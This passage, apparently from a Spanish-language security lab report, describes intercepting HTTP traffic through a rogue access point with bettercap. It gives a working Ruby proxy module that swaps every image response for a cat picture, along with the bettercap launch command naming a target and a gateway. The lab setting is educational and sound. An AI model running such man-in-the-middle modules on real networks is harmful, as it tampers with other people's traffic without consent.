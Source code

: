 Intercepción y modificación de imágenes por HTTP
Para esta prueba, decidimos utilizar bettercap para modificar requests de imágenes que viajan por tráfico HTTP y redigirlas a otra imagen que nosotros especifiquemos. En este caso, dado que no encontramos un plugin de bettercap que nos permita redirigir imágenes, decidimos crear el nuestro propio. A continuación el código del mismo:


\begin{lstlisting}[language=ruby]
  # encoding: UTF-8
  # redirecttocat.rb
  
  # This proxy module will redirect all images to a cat image.
  class RedirectToCat < BetterCap::Proxy::HTTP::Module
  meta(
    'Name'        => 'RedirectToCat',
    'Description' => 'This proxy module will redirect the target(s) images requests to a cat image.',
    'Version'     => '1.0.0',
    'Author'      => "Federico Martinez",
    'License'     => 'GPL3'
    )
    
    # Cat image URL
    @@url = 'http://www.catster.com/wp-content/uploads/2017/08/A-fluffy-cat-looking-funny-surprised-or-concerned.jpg'
    
    def on_request( request, response )
    if response.content_type =~ /^image\/.*/ and !@@url.include?(request.host)
    BetterCap::Logger.info "[#{'REDIRECT'.green}] Redirecting #{request.to_url} to cat ..."
    response.redirect!(@@url)
    end
    end
    end
\end{lstlisting}
    
Básicamente, este plugin captura todas las requests HTTP que devuelven imágenes y la convierte en una imagen de un gato que nosotros especificamos. Pusimos a correr bettercap de la siguiente manera sobre la interfaz de nuestro rogue AP:

bettercap -I wlan0 --proxy-module redirecttocat.rb -T 10.0.0.168 -G 10.0.0.1 --no-spoofing

Luego, utilizando aplicaciones como Spotify o Mercadolibre que utilizan requests HTTP inseguras para imágenes, pudimos obtener resultados como el siguiente al querer ver el carousel de imágenes de una publicación de mercadolibre:
